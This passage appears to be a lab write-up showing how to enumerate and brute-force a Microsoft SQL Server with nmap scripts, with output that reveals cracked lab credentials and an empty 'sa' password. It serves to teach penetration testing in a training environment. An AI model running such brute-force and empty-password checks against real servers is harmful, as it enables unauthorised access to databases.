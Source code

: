 To get ntlm info, we can use the following command:

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV --script=ms-sql-ntlm-info --script-args mssql.instance-port=1433
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:25 IST
Nmap scan report for 10.5.29.39
Host is up (0.0017s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000
| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393
```

To run Bruteforce attack, we can use the following command:

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV --script=ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:28 IST
Nmap scan report for 10.5.29.39
Host is up (0.0016s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-brute: 
|   [10.5.29.39:1433]
|     Credentials found:
|       auditor:jasmine1 => Login Success
|       dbadmin:bubbles1 => Login Success
|_      admin:anamaria => Login Success
```

To look for users with empty passwords, we can use the following command:

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV --script=ms-sql-empty-password                                            
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:30 IST
Nmap scan report for 10.5.29.39
Host is up (0.0018s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-empty-password: 
|   [10.5.29.39:1433]
|_    sa:<empty> => Login Success
```


[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.